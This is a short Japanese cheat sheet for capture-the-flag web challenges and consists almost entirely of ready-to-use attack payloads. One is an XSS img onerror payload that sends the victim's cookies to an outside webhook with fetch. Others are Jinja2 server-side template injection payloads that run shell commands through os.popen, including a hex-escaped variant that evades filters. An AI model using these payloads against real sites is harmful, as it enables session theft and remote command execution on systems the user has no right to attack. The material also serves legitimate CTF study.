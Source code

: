# CTFチートシート
## 目次
{:toc}

## XSS
通常バージョン
```javascript:XSS
```
```html:XSS
&lt;img src=x onerror=fetch(atob('webhookURL(btoa)')+?cookie='+document.cookie)&gt;
```
## SSTI:
問題にどこにファイルがあるかわからない時には
```Python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```Python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```Python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする

